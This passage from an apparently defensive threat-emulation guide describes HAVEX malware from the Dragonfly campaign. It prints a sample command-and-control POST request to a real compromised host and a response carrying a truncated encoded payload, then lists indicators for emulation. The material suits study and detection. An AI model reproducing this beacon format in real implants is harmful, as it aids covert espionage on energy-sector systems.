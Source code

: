 Once malware was delivered, three major tasks were observed:

- System enumeration tools collected information, such as the OS version, machine name and username, and file and directory listings.
- A credential-harvesting tool extracted stored passwords from various web browsers.
- Secondary implants6 communicated with different C2 infrastructures using custom protocols and payloads executed in memory.

__References__

- [Dragonfly: Cyberespionage Attacks Against Energy Suppliers](http://www.symantec.com/content/en/us/enterprise/media/security_response/whitepapers/Dragonfly_Threat_Against_Western_Energy_Suppliers.pdf), http://www.symantec.com/content/en/us/enterprise/media/security_response/whitepapers/Dragonfly_Threat_Against_Western_Energy_Suppliers.pdf
- [Energetic Bear - Crouching Yeti](https://media.kasperskycontenthub.com/wp-content/uploads/sites/58/2018/03/09092926/EB-YetiJuly2014-Public.pdf), https://media.kasperskycontenthub.com/wp-content/uploads/sites/58/2018/03/09092926/EB-YetiJuly2014-Public.pdf
- [The Alley of Compromise](https://www.crowdstrike.com/blog/cve-2014-1761-alley-compromise, https://www.crowdstrike.com/blog/cve-2014-1761-alley-compromise)

### HAVEX HTTP Request Sample

__POST Request__

    POST /wp08/wp-includes/dtcla.php?id=285745296322896178920098FD80-20&v1=038&v2=170393861&q=5265882854508EFCF958F979E4 HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/525.19(KHTML, like Gecko) Chrome/1.0.154.36 Safari/525.19
    Host: toons.freesexycomics.com
    Content-Length: 0
    Cache-Control: no-cache

__POST Response__

    HTTP/1.1 200 OK
    Date: Wed, 22 Jan 2014 13:40:48 GMT
    Content-Type: text/html
    Transfer-Encoding: chunked
    Connection: keep-alive
    Server: Apache/1.3.37 (Unix)
    Cache-Control: no-cache

    9f65
    <html><head><mega http-equiv=’CACHE-CONTROL’ content=’NO-CACHE’></head><body>No data!<!--havexQlpoOTFBWSZTWWYvDI0BOsD/////////////////////////////////////////////4oB+93VVXu69DuN7XYzds9yt49Ques
    [...TRUNCATED ...]
    +yUW3zfTxWAOstsCwCckdW5 AH5Q6vbbCu7GputPt5CSfgPCAKXcAOOICMsqliACGYEhAQT3v9eD
    M92D/8XckU4UJBmLwyNA==havex--></body></head>

In this example from Symantec, several indicators can be identified.

The POST request shows several indicators that may be incorporated into an emulated threat:

- A target PHP file (dtcla.php)
- Interesting URL parameters (id, v1, v2, q)
- A potentially interesting User-Agent
- A target host
